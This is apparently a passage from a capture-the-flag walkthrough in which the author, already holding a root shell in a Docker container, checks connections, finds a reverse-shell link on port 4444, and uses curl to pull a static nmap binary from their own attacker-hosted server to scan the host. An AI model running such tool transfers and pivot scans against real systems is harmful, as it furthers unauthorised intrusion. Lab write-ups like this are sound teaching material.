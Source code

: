 ```
root@4a70924bafa0:/root# netstat -antup
netstat -antup
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0    173 172.17.0.2:48372        10.9.63.75:4444         ESTABLISHED -
```

There are 2 **Local Address** with `0.0.0.0` is the default one which is normally attempt to the `127.0.0.1` or `localhost`; the second one is `172.17.0.2` is connecting with my own local machine. Let’s verify the IP Address one more time:

```
root@4a70924bafa0:/root# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 202  bytes 17516 (17.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 151  bytes 72028 (70.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

As regular, the host address should be displayed at `172.17.0.1` → Where is it?

I need to run the `nmap` scanning on this server with this address to explore what are running on. I transferred my own `nmap` service from my local machine but it did not work:

```
root@4a70924bafa0:/tmp# ./nmap -p- --min-rate 5000 127.17.0.1
./nmap -p- --min-rate 5000 127.17.0.1
./nmap: error while loading shared libraries: libssl.so.3: cannot open shared object file: No such file or directory
```

To solve this, I downloaded the `nmap` package from [andrew-github](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) and then transferred it to the target server:

```
root@4a70924bafa0:/tmp# curl http://10.9.63.75:8000/nmap -o nmap
curl http://10.9.63.75:8000/nmap -o nmap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 5805k  100 5805k    0     0   968k      0  0:00:05  0:00:05 --:--:-- 1092k
root@4a70924bafa0:/tmp# ls -l
ls -l
total 5812
-rw-r--r-- 1 root   daemon 5944464 Sep  7 11:14 nmap
-rwxr-xr-x 1 daemon daemon      38 Sep  7 10:56 shell.sh
```
